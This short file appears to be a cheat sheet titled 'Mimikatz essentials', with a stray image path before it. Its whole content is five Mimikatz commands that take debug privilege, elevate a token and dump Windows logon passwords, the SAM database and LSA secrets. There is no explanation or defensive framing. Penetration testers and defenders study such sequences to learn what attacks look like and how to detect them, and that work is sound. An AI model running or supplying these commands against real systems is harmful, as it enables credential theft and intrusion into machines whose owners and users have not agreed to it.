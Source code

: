# Mimikatz essentials

privilege::debug
token::elevate
sekurlsa::logonpasswords
lsadump::sam
lsadump::lsa /patch
